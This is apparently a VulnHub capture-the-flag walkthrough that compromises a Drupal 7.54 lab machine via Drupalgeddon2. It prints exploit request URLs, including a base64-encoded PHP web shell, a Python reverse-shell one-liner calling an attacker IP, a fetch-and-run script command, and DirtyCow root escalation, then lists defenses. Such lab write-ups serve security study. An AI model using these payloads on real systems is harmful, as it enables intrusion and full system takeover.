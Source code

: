 ## Reconnaissance

Discover the IP using arp-scan <br>
```
$ arp-scan -l -I en1 -v
Interface: en1, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.0.105	08:00:27:e5:04:1a	CADMUS COMPUTER SYSTEMS
```

Check the services/ports exposed using nmap

```
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http?   syn-ack
1898/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
```

From the generator header, we can see that the application is running on Drupal and version probably 7 <br>
Also, there is an interesting file ```CHANGELOG.txt``` which exposes the accurate version used under 7.x

```
Drupal 7.54, 2017-02-01
-----------------------
- Modules are now able to define theme engines (API addition:
  https://www.drupal.org/node/2826480).
```

## Exploitation

Now that we have figured the exact version, let's check if there are any exploits available. 

From [CVE-2018-7600-Drupal-RCE](https://github.com/g0rx/CVE-2018-7600-Drupal-RCE) and [Druppalgeddon2](https://github.com/dreadlocked/Drupalgeddon2), we can see that the Drupal version 7.54 is vulnerable to RCE.

```
[*] Testing: Code Execution   (Method: name)
[v] HTTP - URL : http://192.168.0.105:1898/?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo XMVRLQYC
[+] Result : XMVRLQYC
[v] HTTP - URL : http://192.168.0.105:1898/?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee lampioaa.php
```

Luckily the exploit which we ran, automatically creates a shell and prompts us with a jailed environment with a lot of restrictions.

We can get a reverse shell using Python with ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.104",13337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``` 

Reverse shells generally don't have tty enabled and we need to upgrade our shell so that we can run commands like `sudo` `su` `ssh`

To enable tty on a jailed shell, we can run, ```python -c 'import pty; pty.spawn("/bin/sh")'```

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/tty-no-tty.png">
</p>

## Privilege Escalation

Now that we have shell access, we need to escalate this to ```root``` to read the flag. 
Let us run ```linux-exploit-suggester``` to check if the kernel has any publicly available exploits. 

```
www-data@lampiao:/tmp$ wget --quiet https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh && chmod +x les.sh && ./les.sh
Available information:
Kernel version: 4.4.0
Architecture: i686
<snipped>
Possible Exploits:
[+] [CVE-2016-5195] dirtycow 2
   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847.cpp
 <snipped>
 ```
 
Let us pull the exploit and try it. It is important that we compile with the specified flags else we might get warnings, errors during compilation time. 

Running the dcow exploit, rewrites the ```root``` password to ```dirtyCowFun``` in the ```/etc/passwd``` file
We can ssh as the root user with the modified password. 

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/root-lamp.png">
</p>

## Defense 

[1] Firewall/IDS/IPS rule to detect signature of druppalgeddon and block it. <br>
[2] Disable access to sensitive files like CHANGELOG.txt. <br>
[3] Limit the ACL for uploading, executing files in the OS level or Server level. 

## References 

[1] https://netsec.ws/?p=337 <br>
[2] https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell
